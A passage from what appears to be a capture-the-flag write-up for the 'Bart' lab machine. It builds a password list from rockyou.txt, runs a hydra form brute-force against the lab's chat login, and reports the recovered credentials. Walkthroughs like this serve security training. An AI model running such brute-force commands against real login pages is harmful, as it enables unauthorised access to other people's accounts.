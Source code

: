 Since the password has to be more then 8 chars, we can grab words with 8 chars or more from `rockyou.txt` -- here's the command to do so:
```
grep '.\{8\}' /usr/share/wordlists/rockyou.txt | head -n 500 > bart-dev-wordlist
```

Now all we need to do now is look at what params the login wants, and run hydra on the login page:
```
hydra -l harvey -P bart-dev-wordlist -t 60 internal-01.bart.htb  http-form-post "/simple_chat/login_form.php:uname=^USER^&passwd=^PASS^&submit=Login:F=Invalid Username or Password"
```

Once again, after around ~ 1 minute you should get a hit. The creds are `harvey:Password`. Logging in time:
![Image](/assets/bart/016.png)

Not much to see above, but the source code has some interesting notes:
![Image](/assets/bart/017.png)

